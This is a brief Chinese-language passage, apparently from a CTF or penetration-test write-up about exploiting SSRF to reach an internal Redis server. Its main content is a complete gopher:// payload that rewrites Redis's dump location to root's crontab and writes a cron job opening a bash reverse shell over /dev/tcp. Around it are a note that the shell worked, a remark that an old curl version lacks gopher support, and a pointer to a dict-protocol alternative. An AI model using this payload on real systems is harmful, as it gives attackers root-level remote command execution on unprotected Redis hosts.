 

反弹shell成功

![[img]()](assets/47LKioL.png)



gopher协议payload

```
gopher://127.0.0.1:6379/_*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2415%0d%0a/var/spool/cron%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%244%0d%0aroot%0d%0a*3%0d%0a%243%0d%0aset%0d%0a%243%0d%0awww%0d%0a%2455%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0d%0a*1%0d%0a%244%0d%0asave%0d%0a
```

尝试gopher发现curl 7.19.7版本不支持，挺老的版本
![img](assets/XRVW1i0.png)

不过我们还可以用dict协议来利用
http://www.cnblogs.com/iamstudy/articles/13th_cuit_game_wp_web300_ssrf.html
